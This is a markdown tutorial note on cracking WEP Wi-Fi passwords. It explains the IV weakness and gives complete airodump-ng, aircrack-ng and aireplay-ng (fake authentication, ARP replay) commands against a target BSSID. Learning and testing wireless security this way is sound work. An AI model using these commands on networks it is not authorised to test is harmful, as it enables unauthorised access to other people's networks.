 # Cracking the password of AP secured with WEP

## WEP
-   WEP uses algorithm RC4 for data encryption
-   each data is enrypted with unique key
    -   24 bit initialization vector (IV)
    -   IV + key (password) = key stream
    -   key stream + data = enrypted data
    -   IV is shared via packet in plain text
        -   this is the vulnerability, since it is shared in plain text and since the communucation on the router will be high, the IV will appear many times. Statictical attack can be easily performed to gain the IV

### WEP cracking of busy network
-   Capture large amount of packets / IVs => tool `airodump-ng`
-   Analyse the captured IVs and crack the key => tool `aircrack-ng`

```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write basic_wep wlan0 # sniff all data (see previous notebook)

aircrack-ng basic_wep-01.cap # crack the password, basic_wep-01.cap is output file from previous command airodump-ng
```

Output of aircrack-ng:
-   Example output: ... KEY FOUND! [ 41:73:32:33 ] (ASCII:As23) ...
-   Password can be used as `As23` or delete the ":" from [ ]: `41733233`

### WEP cracking of not busy network (ARP_replay)
-   Simply force AP to generate mode packets
1.  associate with the AP otherwise the requests will be ignored
    -   simple description: saying to the network "hey I want to communicate with you, dont ignore me". But still not being authenicated to the network, since we don't know the password yet
2.  wait for ARP packet, capture it and replay it (retransmit it)
    -   This causes AP to produce another packet with the new IV
    -   Keep doing this untill enough IVs to crack the key

#### 1st step
```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write arp_replay wlan0 # check the association and sniff all the data, keep it running while to capture all the data on the network
```

- Start second command line and associate with the network

```bash
aireplay-ng --fakeauth 0 -a B0:95:75:42:27:E3 -h 5A:6E:23:9B:29:D8 wlan0 # generate many fakeauth packets to AP (target network)
```

- --fakeauth attack 0 stands for do it only once
- -a target network
- -h MAC adress of wireless adapter (`ifconfig` to get the value)

#### 2nd step
```bash
aireplay-ng --arpreplay -b B0:95:75:42:27:E3 -h 5A:6E:23:9B:29:D8 wlan0 # arpreplay attack => wait for the arp packet, when captured, retransmit

aircrack-ng arp_replay-01.cap # crack the password
```